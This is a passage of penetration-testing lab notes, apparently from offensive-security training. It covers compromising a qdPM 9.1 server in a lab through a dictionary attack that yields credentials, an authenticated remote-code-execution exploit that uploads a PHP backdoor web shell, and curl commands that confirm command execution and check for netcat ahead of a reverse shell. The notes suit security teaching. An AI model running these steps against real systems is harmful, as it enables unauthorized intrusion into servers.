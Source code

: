 Another method of getting an account password would be to use a word list generator on the website
+ After a word list is generated, we can try the list as-is or make changes to create more complex passwords

Using a dictionary attack on the login portal along with the four discovered e-mails, we can verify that _george@AIDevCorp.org_:_AIDevCorp_ are valid credentials for George's account:
![[Pasted image 20230926152728.png]]

With a valid login to the system, we can enumerate the tasks, projects, and some configurations of the project management system
+ Because we found an exploit that needed working credentials, we can now execute the exploit against our target
+ We'll copy the exploit to our current working directory with **searchsploit**: 
```
kali@kali:~$ searchsploit -m 50944
  Exploit: qdPM 9.1 - Remote Code Execution (RCE) (Authenticated) (v2)
      URL: https://www.exploit-db.com/exploits/50944
     Path: /usr/share/exploitdb/exploits/php/webapps/50944.py
File Type: Python script, Unicode text, UTF-8 text executable

Copied to: /home/kali/50944.py
```

With the exploit in our current working directory, let's execute it against the target path with the found credentials
+ The exploit arguments were determined from reading the source code, along with the usage section of the script
+ Not all exploits have a usage section
+ Unlike this exploit, some exploits require changing variables within the source code before execution
```
kali@kali:~$ python3 50944.py -url http://192.168.50.11/project/ -u george@AIDevCorp.org -p AIDevCorp
You are not able to use the designated admin account because they do not have a myAccount page.

The DateStamp is 2022-06-15 12:19 
Backdoor uploaded at - > http://192.168.50.11/project/uploads/users/420919-backdoor.php?cmd=whoami
```

The output of the exploit produces an error, but further investigation indicates it worked
+ The exploit uploaded a command shell to the **projects/uploads/users/** directory
+ We can use **curl** to verify if we have command execution with this PHP file:
```
kali@kali:~$ curl http://192.168.50.11/project/uploads/users/420919-backdoor.php?cmd=whoami
<pre>www-data
</pre>
```

The **whoami** command returned _www-data_ as the system user executing the PHP script
+ Now, we can enumerate more information from this web shell inside our target
+ The goal is to get a reverse shell into the machine, so let's check if **nc** is installed on the target

We need to modify our **curl** command to automatically encode our commands supplied to the _cmd_ variable of our web shell
+ We can use the **--data-urlencode** option to automatically URL-encode our parameter
```
kali@kali:~$ curl http://192.168.50.11/project/uploads/users/420919-backdoor.php --data-urlencode "cmd=which nc"
<pre>/usr/bin/nc
</pre>
```
